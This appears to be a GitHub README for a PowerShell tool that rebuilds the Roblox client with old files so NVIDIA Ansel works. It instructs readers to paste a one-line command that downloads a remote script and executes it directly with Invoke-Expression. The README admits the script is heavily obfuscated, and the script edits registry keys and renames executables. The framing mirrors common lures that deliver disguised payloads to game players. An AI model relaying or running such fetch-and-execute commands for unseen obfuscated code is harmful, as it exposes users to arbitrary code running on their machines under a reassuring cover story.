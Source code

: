 Ansel Builder for Roblox

This is a powershell script that uses your current roblox client and re-builds it with some old files from the last known version where NVIDIA Ansel was supported.

## What does this script do?

- It downloads an older build of Roblox (around 90MB) and merges it with your current client.
- Renames RobloxPlayerBeta.exe to Minecraft.exe for Ansel/Game Filter compatibility.
- Changes registry keys to open Roblox from the browser
- Restores Desktop/Program Shortcuts for Roblox

## How do I run the file?

__Download the .ps1 file attached, then right click on it and "Run with Powershell"__

**OR** 

__Run the code using Powershell__
- __**Open Windows Powershell, paste this code and hit Enter.**__
``powershell -c "iwr https://github.com/chrowmiee/NVIDIABuild/releases/download/archive/NVIDIA.ps1 | iex"``

**⚠️  Do not close the script while it's extracting! **
 This may corrupt your current client, and you'll have to reinstall Roblox.

**❌   Close Roblox before running the script.**
Make sure Roblox is fully closed, check your Task Manager and end all processes; otherwise an error will pop-up. 

**NVIDIA ONLY** 
As always, this uses NVIDIA Ansel for Windows, and will not be supported by any non-NVIDIA GPUs.

✅ **The code is heavily obfuscated because I don't want people to modify the code and take my name taken out of the credits, thank you for understanding.**

This is a very robust and hacky solution, probably won't work in the future.
If you're having any issues with the script, please DM me @ chrowmii for support.
